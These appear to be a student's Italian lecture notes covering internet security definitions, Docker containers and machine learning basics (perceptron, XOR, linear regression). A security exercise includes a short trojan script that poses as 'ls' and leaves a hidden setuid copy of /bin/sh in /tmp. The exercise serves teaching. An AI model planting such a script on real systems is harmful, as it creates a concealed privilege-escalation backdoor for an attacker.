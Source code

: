 # 2022-03-14
# Cose da cercare
- [ ] [Bug dash](https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=%20734869)
- [ ] PSD2
# Internet Security
![[Recording 20220314131117.webm]]

Anche solo fare una copia di file può portare problemidi sicurezza dato che si parla di permessi del file che copiandolo diventa di nostra proprietà

!def Vulnerabilità
Una vulnerabilità è una particolarità del sistema che può essere usato per perpretare azioni con intenzioni malevole

!def Attacco
La vera e propria perpretazione delle azioni malevole

> Noi dovremo imparare inquesto insegnamento metodi e tecniche fondamentali:
> - Crittografia
> - Policy
> - Conoscenza, possesso, biometria
> - Programmi di protezione
> - Protocolli di sicurezza
> - Sensibilizzazione dell'utente

```ad-def 
title:*Sicurezza*

- Non un prodotto ma un processo
- anello più debole di una catena
- Espressa sa che cosa
- Sempre soggeta all'analisi costio/benefici
- Si realizza in ppratica mediante livelli di sicurezza
```
!def Rischi di base per la sicurezza
- complessità del singolo sistema da mettere in sicurezza
- Conbinazione di sistemi
- Predisposizioni ai bug
- Proprietà emergenti
- Interazione con l'uomo

Una proprietà di sicurezza è presente quando è presente un mezzo d'attacco

## Esercizi
````ad-exercise 
title:Attacco trojan
Provare su varie distro Ubuntu

```bash
cp /bin/sh /tmp/.xxsh
chmod u+s,o+x /tmp/.xxsh
rm ./ls
ls $*
```
````

# TAP
## Argomenti
- [[#Docker]]

## Docker
!def Container
Un _container_ è un oggetto contenente la _configurazione_ e tutte le _dipendenze_ necessarie ad un *processo*

La containerizzazione dei processi fornisce isolamento, riutilizzo cross platform, ...

!def Docker vs Virtualizzazione
(Sono totalmente diversi... l'unica cosa che noto in comune è una questione di setup/configuration ed isolamento)
In comune hanno una preparazione del campo per eseguire qualcosa (dipendenze e configurazione)

# Machine Learning

generalmente il machine learning si suddivide in descriminativi e generativi

!def Termini
Epoca: Numero di volte che hai eseguito un passaggio di training su di un intero set di training
```ad-def 
title:Discriminativi
Trovare un bound di decisione che deve essere appreso
trovare una probabilità a posteriori $P(y|x)$

Gli algoritmi Deep learning fanno capo a questa categoria
```
```ad-def
title:Generativi
Apprendere la probabilità congiunta $P(y,x) = P(y|x)P(x) = P(x|y)P(y)$ 
```

!def Perceptron
Ideato nel 1958 da [...]; è basato sul design dei neuroni.

- Peso $\theta_j \forall$ Componente $x_j$ normalizzato$
- Normalizzazione: $x_j^{(i)} \in [0,1]$
- Moltiplicazione dei pesi per le componenti di input
- Somma dei prodotti
- Risultato delle somme è confrontato rispetto a t risultando $1$ quando $\sum_{j=1}^{d}{\theta_jx_j}>t$ (biass) altrimenti $0$
- Algoritmo di learning
## Algoritmi di learning
### Grid search
- $t\in\mathscr{R}$ randomica
- $\theta_j \in [0,1]$ provando un numero finito di possibilità per ognuno di loro suddividendo $[0,1]$ in $n$ valori equidistanti
### Un metodo di cui non so il nome
- $t\in\mathscr{R}$ randomica
- $\theta_j \in [0,1]$ randomici
- controllo dei risultati e calcolo dell'errore
	- $\hat{y}=sign(\sum_{j=1}^{d}{\theta_jx_j}-t)$
	- dove $t = \theta_0 x_0$;$\;x_0=1$
- correzione dei pesi
  ${\theta_j}_{\tau_1} = {\theta_j}_{\tau_0}+(y-\hat{y})\epsilon \;\forall j$ 

Nel 1969 si dimostrò che il perceptron non basta a risolvere il problema della ***XOR***
$$
\displaylines{
	\begin{cases}
		0\theta_1 &+0\theta_2 &< t &\implies t>0      \\
		1\theta_1 &+1\theta_2 &< t                     \\
		0\theta_1 &+1\theta_2 &> t &\implies \theta_2>t \\
		1\theta_1 &+0\theta_2 &> t &\implies \theta_1>t  \\
	\end{cases}\\
	\theta_1 + \theta_2 > 2t \implies t>2t
}
$$

## Regressione
> Due fasi, *learning* ed *estimation*
### Regressione lineare
Trova una retta che approssima il training set riducendo il più possibile il tasso di errore
!def Cost function
$J(\theta_0,\theta_1) = \frac{1}{2m}\sum_{i=1}^{m}{(h_\theta(x^{(i)})-y^{(i)})^2}$
${\theta_j}_{\tau_1} = {\theta_j}_{\tau_0} - \alpha\frac{\delta J(\theta)}{\delta\theta_j}\;\forall j$ 